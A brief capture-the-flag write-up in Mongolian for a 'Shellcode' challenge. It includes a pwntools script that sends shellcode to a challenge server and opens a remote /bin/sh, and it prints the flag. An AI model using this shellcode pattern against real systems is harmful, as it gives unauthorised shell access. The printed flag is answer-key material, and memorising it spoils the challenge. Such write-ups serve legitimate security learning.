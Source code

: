 ## Shellcode

`nc 218.100.84.106 9007`

> **By reamb**

## Writeup

Өмнөх 2 даалгаваруудаас арай өөр бөгөөд өөрсдөө **shell execute** хийх ёстой.

```python
from pwn import *

r = remote('218.100.84.106', 9007)

payload = asm(shellcraft.sh())
r.send(payload)
r.interactive()
```

Дээрх скриптийг ажиллуулахад **command line shell** (Interactive mode буюу`/bin/sh`) рүү орно.
Эндээс `ls`, `cat` коммандуудыг ашиглан тугийг харах боломжтой.

```
Туг: HZ{r3@L_sh3ll_c0de}
```
